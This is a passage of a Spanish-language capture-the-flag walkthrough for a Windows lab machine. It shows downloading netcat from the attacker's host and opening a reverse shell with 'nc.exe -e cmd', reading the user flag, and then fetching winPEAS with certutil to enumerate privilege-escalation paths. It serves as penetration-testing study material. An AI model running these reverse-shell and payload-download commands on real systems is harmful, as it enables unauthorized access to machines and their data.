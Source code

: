 ```bash
curl http://10.10.14.8/nc.exe -o nc.exe
./nc.exe -e cmd 10.10.14.8 443
```

Si le hacemos un type

```bash
 C:\users\shaun\Desktop\user.txt 
```

 podemos ver la flag.

### Analyzando la maquina {-}

```bash
whoami
whoami /priv
whoami /all
```

Como no vemos nada interressante aqui, lanzaremos un binario que nos permitta enumerar el systema para
encontrar vias potenciales para escalar privilegios. Vamos a utilizar el **winpeas**

#### Analysis de vulnerabilidad Privesc con WINPEAS {-}

```bash
cd c:\Windows\Temp
mkdir EEEE
cd EEEE
```

Descargamos el

```bash
 winpeasx64.exe 
```

 desde [https://github.com/carlospolop/PEASS-ng/blob/master/winPEAS/winPEASexe/binaries/Obfuscated%20Releases/winPEASx64.exe](https://github.com/carlospolop/PEASS-ng/blob/master/winPEAS/winPEASexe/binaries/Obfuscated%20Releases/winPEASx64.exe).

```bash
cd content
cp /home/s4vitar/Descargas/firefox/winPEASx64.exe .
python3 -m http.server 80
```

Lo descargamos desde la maquina victima y lo lanzamos.

```bash
certutil.exe -f -urlcache -split http://10.10.14.8/winPEASexe.exe winPEAS.exe
winPEAS.exe
```

En la parte

```bash
 Searching executable files in non-default folders with write (equivalent) permissions 
```
